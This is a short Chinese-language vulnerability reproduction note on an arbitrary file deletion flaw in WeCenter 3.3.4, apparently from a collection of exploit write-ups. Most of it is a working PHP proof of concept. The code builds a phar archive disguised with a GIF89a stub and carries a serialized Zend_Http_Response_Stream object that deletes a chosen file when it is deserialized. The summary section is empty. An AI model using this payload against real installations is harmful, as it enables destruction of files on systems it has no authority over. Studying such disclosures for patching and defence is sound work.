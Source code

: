 WeCenter 3.3.4 任意文件删除
===========================

一、漏洞简介
------------

二、漏洞影响
------------

WeCenter 3.3.4

三、复现过程
------------

### 任意文件删除

**system/Zend/Http/Response/Stream.php:\_\_destruct()**
方法中存在任意文件删除。

![](./resource/WeCenter3.3.4任意文件删除/media/rId25.png)

### poc

    <?php
    class Zend_Http_Response_Stream
    {
        protected $_cleanup;
        protected $stream_name;

        public function __construct($stream_name)
        {
            $this->_cleanup = true;
            $this->stream_name = $stream_name;
        }
    }

    $stream_name = '/var/www/html/wecenter334/shell.php';
    $evilobj = new Zend_Http_Response_Stream($stream_name);
    // phar.readonly无法通过该语句进行设置: init_set("phar.readonly",0);
    $filename = 'poc.phar';// 后缀必须为phar，否则程序无法运行
    file_exists($filename) ? unlink($filename) : null;
    $phar=new Phar($filename);
    $phar->startBuffering();
    $phar->setStub("GIF89a<?php __HALT_COMPILER(); ?>");
    $phar->setMetadata($evilobj);
    $phar->addFromString("foo.txt","bar");
    $phar->stopBuffering();

    ?>

